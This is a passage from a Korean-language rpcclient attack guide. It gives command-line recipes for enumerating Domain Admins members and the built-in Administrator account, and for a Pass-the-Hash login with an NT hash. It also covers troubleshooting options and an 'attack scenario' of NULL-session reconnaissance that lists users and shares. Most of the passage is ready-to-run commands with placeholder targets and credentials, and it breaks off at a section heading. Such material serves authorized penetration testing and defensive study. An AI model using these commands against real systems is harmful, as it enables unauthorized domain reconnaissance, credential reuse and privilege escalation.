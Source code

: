 ### 5.4 특권 계정 찾기

```bash
# Domain Admins 그룹 멤버 찾기
rpcclient -U "<USERNAME>%<PASSWORD>" <TARGET_IP> -c "querygroupmem 512" | while read line; do
    rid=$(echo $line | awk '{print $1}')
    rpcclient -U "<USERNAME>%<PASSWORD>" <TARGET_IP> -c "queryuser $rid"
done

# Administrator 계정 정보 확인
rpcclient -U "<USERNAME>%<PASSWORD>" <TARGET_IP> -c "queryuser 500"
```

### 5.5 Pass-the-Hash 공격

```bash
# NT 해시로 연결 (Pass-the-Hash)
rpcclient -U "Administrator" --pw-nt-hash <NT_HASH> <TARGET_IP>
```

## 6. 일반적인 문제 해결

```bash
# SMB 버전 호환성 문제 해결
rpcclient -U "<USERNAME>%<PASSWORD>" <TARGET_IP> --option="client min protocol=NT1"

# 디버그 모드로 실행 (문제 진단)
rpcclient -U "<USERNAME>%<PASSWORD>" <TARGET_IP> -d 3

# 연결 시간 초과 처리
rpcclient -U "<USERNAME>%<PASSWORD>" <TARGET_IP> -t 30

# 접근 거부 문제 (권한 부족)
# 다른 계정으로 시도하거나 적절한 권한을 가진 계정 필요
```

## 7. 공격 시나리오 예시

### 7.1 초기 정보 수집 (NULL 세션)

```bash
# 1. 서버 정보 확인
rpcclient -U "" -N <TARGET_IP> -c "srvinfo"

# 2. 사용자 목록 조회 시도
rpcclient -U "" -N <TARGET_IP> -c "enumdomusers"

# 3. 공유 목록 확인
rpcclient -U "" -N <TARGET_IP> -c "netshareenum"
```

### 7.2 사용자 계정 매핑
